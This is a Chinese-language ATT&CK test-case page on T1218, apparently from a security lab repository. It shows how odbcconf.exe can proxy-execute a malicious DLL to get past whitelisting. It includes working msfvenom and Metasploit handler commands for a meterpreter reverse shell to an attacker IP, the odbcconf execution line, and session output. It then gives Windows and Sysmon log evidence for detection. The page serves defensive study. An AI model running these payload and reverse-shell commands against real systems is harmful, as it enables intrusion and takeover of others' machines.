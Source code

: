 # T1218-win-基于白名单Odbcconf.exe执行Payload

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Odbcconf.exe是允许配置开放数据库连接（ODBC）驱动和数据源名称的Windows工具。攻击者也可能滥用此工具来执行动态链接库，就像带有REGSVR选项的Regsvr32一样。

odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\payload.dll}
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 2 opened (192.168.126.146:53 -> 192.168.126.149:49306) at 2020-04-18 20:45:29 +0800
[*] Session ID 2 (192.168.126.146:53 -> 192.168.126.149:49306) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rundll32.exe (912)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3820
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xfec
新进程名: C:\Windows\SysWOW64\odbcconf.exe

事件ID：4688
进程信息:
新进程 ID: 0x390
新进程名: C:\Windows\SysWOW64\rundll32.exe

sysmon日志
事件ID：1
Image: C:\Windows\SysWOW64\odbcconf.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: ODBC Driver Configuration Program
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: odbcconf.exe
CommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=B1C49B2159C237B1F2BCE2D40508113E39143F7B
ParentProcessGuid: {bb1f7c32-f65d-5e9a-0000-0010833eef00}
ParentProcessId: 3868
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

事件ID：1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe
CurrentDirectory: C:\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=8939CF35447B22DD2C6E6F443446ACC1BF986D58
ParentProcessGuid: {bb1f7c32-f662-5e9a-0000-0010d648ef00}
ParentProcessId: 4076
ParentImage: C:\Windows\SysWOW64\odbcconf.exe
ParentCommandLine: C:\Windows\SysWOW64\odbcconf.exe  /a {regsvr C:\payload.dll}
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1218:<https://attack.mitre.org/techniques/T1218/>

windows下基于白名单获取shell的方法整理（下）:<http://www.safe6.cn/article/157#directory030494471069429444>
